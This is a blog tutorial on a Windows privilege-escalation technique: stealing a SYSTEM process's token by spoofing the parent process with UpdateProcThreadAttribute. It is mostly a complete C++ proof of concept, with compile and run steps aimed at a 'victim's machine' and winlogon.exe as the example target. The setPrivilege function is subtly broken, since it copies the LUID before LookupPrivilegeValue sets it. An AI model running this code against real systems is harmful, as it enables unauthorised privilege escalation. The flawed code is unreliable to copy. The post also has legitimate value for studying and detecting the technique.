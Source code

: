 ```yaml
---
title:  "APT techniques: Token theft via UpdateProcThreadAttribute. Simple C++ example."
date:   2022-10-28 03:00:00 +0300
header:
  teaser: "/assets/images/77/2022-10-29_03-59.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![token](/assets/images/77/2022-10-29_03-59.png){:class="img-responsive"}    

This post is the result of my own research into one of the more interesting APT techniques: token theft via UpdateProcThreadAttribute.     

In the previous [post](/tutorial/2022/09/25/token-theft-1.html) I wrote about classic token theft via `DuplicateTokenEx` and `CreateProcessWithTokenW`. Today I will describe an alternative method that works starting from Windows Vista.     

### UpdateProcThreadAttribute

In the first part of my tutorial, we just doing classic trick: enable `SE_DEBUG_PRIVILEGE`, open a token from any system process (which works even for protected processes also), duplicate the token, adjust privileges on it, and then impersonate with this token.     

Today we can use more simply trick. Microsoft implemented in Vista the ability to designate an explicit parent process when creating a new process, allowing the elevated process to remain a child of the caller.

Typically, in the UAC instance, you must issue an explicit token to the new process. If you do not supply a token, the new process will inherit from the designated parent. The only condition is that the handle to the parent process must have the `PROCESS_CREATE_PROCESS` access privilege.     

So, we just open some system process with `PROCESS_CREATE_PROCESS` access right. Then use this handle with `UpdateProcThreadAttribute`. In consequence, your process inherits a token from the system process.     

```cpp
BOOL UpdateProcThreadAttribute(
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  DWORD                        dwFlags,
  DWORD_PTR                    Attribute,
  PVOID                        lpValue,
  SIZE_T                       cbSize,
  PVOID                        lpPreviousValue,
  PSIZE_T                      lpReturnSize
);
```

And all you need for working this is `SE_DEBUG_PRIVILEGE`.    

### technique. practical example

First of all, sometimes you must turn on `SeDebugPrivilege` in your current set of privileges:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```

Then, open a process whose access token you wish to steal with `PROCESS_CREATE_PROCESS` access rights:    

```cpp
HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
```

After that, use it is handle with `UpdateProcThreadAttribute`:    

```cpp
ZeroMemory(&si, sizeof(STARTUPINFOEXW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
  GetProcessHeap(),
  0,
  size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXW);
```

Finally, create process:     

```cpp
res = CreateProcessW(app, NULL, NULL, NULL, true, EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
printf(res ? "successfully create process :)\n" : "failed to create process :(\n");
```

So, the full source code of this logic is look like this:       

```cpp
/*
hack.cpp
token theft via
UpdateProcThreadAttribute
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/28/token-theft-2.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

// create process
BOOL createProcess(DWORD pid, LPCWSTR app) {
  STARTUPINFOEXW si;
  PROCESS_INFORMATION pi;
  SIZE_T size;
  BOOL res = TRUE;
  HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
  printf(ph ? "successfully open process :)\n" : "failed to open process :(\n");

  ZeroMemory(&si, sizeof(STARTUPINFOEXW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  InitializeProcThreadAttributeList(NULL, 1, 0, &size);
  si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

  res = CreateProcessW(app, NULL, NULL, NULL, true, EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
  printf(res ? "successfully create process :)\n" : "failed to create process :(\n");
  return res;
}

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  if (!createProcess(pid, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```

As you can see, the code is slightly different from the previous part. This code is just dirty PoC, for simplicity, I run `mspaint.exe`.      

### demo

Let's go to see everything in action. Compile our PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![token](/assets/images/77/2022-10-29_03-48.png){:class="img-responsive"}    

Then, run it at the victim's machine:    

```powershell
.\hack.exe <PID>
```

![token](/assets/images/77/2022-10-29_03-56.png){:class="img-responsive"}    

As an example, you may steal the `winlogon.exe (PID: 544)` access token:     

![token](/assets/images/77/2022-10-29_03-57.png){:class="img-responsive"}    

![token](/assets/images/77/2022-10-29_03-58.png){:class="img-responsive"}    

![token](/assets/images/77/2022-10-29_03-59_1.png){:class="img-responsive"}    

As you can see, everything is worked perfectly!     

I hope this post least a little useful for entry level cyber security specialists (and possibly even professionals), also spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.     

[Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)       
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)     
[LookupPrivilegeValue](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea)    
[AdjustTokenPrivileges](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges)     
[UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)    
[CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)       
[APT techniques: Token theft. Part 1](/tutorial/2022/09/25/token-theft-1.html)     
[source code in github](https://github.com/cocomelonc/2022-10-28-token-theft-2)        

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
